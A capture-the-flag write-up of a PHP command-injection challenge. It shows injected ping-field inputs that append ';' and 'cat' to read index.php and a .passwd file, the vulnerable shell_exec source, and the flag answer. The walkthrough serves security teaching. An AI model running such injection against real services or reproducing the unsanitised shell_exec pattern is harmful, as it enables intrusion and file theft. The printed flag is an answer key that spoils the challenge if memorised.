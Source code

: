 # PHP - Command injection

> Find a vulnerability in this service and exploit it. The flag is on the index.php file.

<figure><img src="../../.gitbook/assets/1 46.png" alt=""><figcaption></figcaption></figure>

* Let's input `127.0.0.1` as the input field is suggesting.

<figure><img src="../../.gitbook/assets/2 42.png" alt=""><figcaption></figcaption></figure>

* We can see that our input is used to execute a `ping` command.
* We know the flag is on the `index.php` file. In order to `cat` the flag we need to use the `;` separator.

### User Input

```
127.0.0.1 ; cat index.php
```

<figure><img src="../../.gitbook/assets/3 32.png" alt=""><figcaption></figcaption></figure>

* Looks like our input was processed properly. Let's check the source code.

<figure><img src="../../.gitbook/assets/4 22.png" alt=""><figcaption></figcaption></figure>

* The source code reveals an interesting piece of code.

### PHP code

```php
<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
```

* The line `shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'")` executes a shell command based on user input ($\_POST\["ip"]).
* The line `"".file_get_contents(".passwd").""` reads the content of a file named `.passwd` and appends it to the `$flag` variable.
* Let's modify our input to `cat` the `.passwd` file.

### User Input

```
127.0.0.1 ; cat .passwd
```

<figure><img src="../../.gitbook/assets/5 13.png" alt=""><figcaption></figcaption></figure>

### Flag

```
S3rv1ceP1n9Sup3rS3cure
```
